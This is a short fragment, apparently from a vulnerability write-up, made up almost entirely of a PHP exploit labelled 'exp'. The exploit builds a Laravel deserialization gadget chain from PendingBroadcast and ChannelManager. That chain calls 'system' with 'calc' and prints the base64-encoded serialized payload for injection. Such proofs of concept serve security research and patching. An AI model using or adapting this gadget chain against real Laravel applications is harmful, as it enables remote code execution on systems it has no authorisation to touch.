 <img src="./images/poc-3-2.png" alt="">

### exp
```php
<?php
namespace Illuminate\Notifications {
    class ChannelManager {
        protected $app;
        protected $customCreators;
        protected $defaultChannel;
        public function __construct() {
            $this->app = 'calc';
            $this->defaultChannel = 'H3rmesk1t';
            $this->customCreators = ['H3rmesk1t' => 'system'];
        }
    }
}


namespace Illuminate\Broadcasting {
    use Illuminate\Notifications\ChannelManager;
    class PendingBroadcast {
        protected $events;
        public function __construct()
        {
            $this->events = new ChannelManager();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```
